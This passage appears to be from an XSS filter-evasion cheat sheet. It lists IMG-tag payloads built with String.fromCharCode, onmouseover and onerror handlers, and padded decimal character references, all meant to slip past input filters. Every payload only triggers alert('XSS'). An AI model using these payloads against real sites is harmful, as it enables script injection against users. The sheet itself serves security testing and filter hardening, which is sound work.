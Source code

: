 
		fromCharCode

		if no quotes of any kind are allowed you can eval() a fromCharCode in JavaScript to create any XSS vector you need:
		1
		<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>


		Default SRC tag to get past filters that check SRC domain

		This will bypass most SRC domain filters. Inserting javascript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc. It will also allow any relevant event for the tag type to be substituted like onblur, onclick giving you an extensive amount of variations for many injections listed here. Submitted by David Cross .

		Edited by Abdullah Hussam.
		1
		<IMG SRC=# onmouseover="alert('xxs')">


		Default SRC tag by leaving it empty
		1
		<IMG SRC= onmouseover="alert('xxs')">


		Default SRC tag by leaving it out entirely
		1
		<IMG onmouseover="alert('xxs')">


		On error alert
		1
		<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>


		Decimal HTML character references

		all of the XSS examples that use a javascript: directive inside of an <IMG tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode). Use the XSS Calculator for more information:
		1
		<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
		2
		&#39;&#88;&#83;&#83;&#39;&#41;>


		Decimal HTML character references without trailing semicolons

		This is often effective in XSS that attempts to look for “&#XX;”, since most people don’t know about padding – up to 7 numeric characters total. This is also useful against people who decode against strings like $tmp_string =~ s/.*\&#(\d+);.*/$1/; which incorrectly assumes a semicolon is required to terminate a html encoded string (I’ve seen this in the wild):
			1
			<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
			2
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
